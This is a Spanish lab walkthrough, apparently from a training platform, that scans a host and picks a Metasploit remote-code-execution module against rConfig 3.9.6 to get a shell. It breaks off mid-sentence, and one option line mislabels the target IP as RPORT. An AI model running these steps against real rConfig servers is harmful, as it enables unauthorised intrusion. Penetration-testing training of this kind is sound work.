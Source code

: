 Objetivo: documentar, paso a paso, el razonamiento y comandos clave para obtener una shell en un host Linux que ejecuta rConfig 3.9.6 en un entorno de laboratorio con autorización.

Lanzamos un: 
```
nmap -sC -sV 10.129.201.101
```

Y encontramos:
- **21/tcp FTP** → vsftpd 2.0.8+
- **22/tcp SSH** → OpenSSH 7.4
- **80/tcp HTTP** → Apache 2.4.6 (CentOS) + PHP 7.2.34
- **443/tcp HTTPS** → Apache 2.4.6 (CentOS) + PHP 7.2.34, cert self-signed
- **111/tcp rpcbind**
- **3306/tcp MySQL** (no autorizado)

Con esto podemos hacer una hipótesis, y es que el host es de tipo *web server* que aloja a una aplicación web (HTTP/HTTPS) + base de datos MYSQL.

Accedemos a https://10.129.201.101/ y observamos que utiliza la versión **rCONFIG 3.9.6**, y una búsqueda rápida en google nos dice que este servicio es vulnerable.

Buscando exploits en *msfconsole* del tipo "search exploit rconfig", vemos que muestra algunos PAYLOADS interesantes para servicios http:
```
   7   exploit/linux/http/rconfig_ajaxarchivefiles_rce          2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   8   exploit/linux/http/rconfig_vendors_auth_file_upload_rce  2021-03-17       excellent  Yes    rConfig Vendors Auth File Upload RCE
   9   exploit/unix/webapp/rconfig_install_cmd_exec             2019-10-28       excellent  Yes    rConfig install Command Execution

```
Vamos a utilizar el:
```
use exploit/linux/http/rconfig_ajaxarchivefiles_rce
```
Establecemos:
- RPORT = <ip_máquina_víctima>
- RPORT = 443
OJO! Es muy importante establecer correctamente la IP de la máquina atacante, pues, la que trae por defecto el exploit no sirve.

Una vez lanzado el exploit, capturamos 
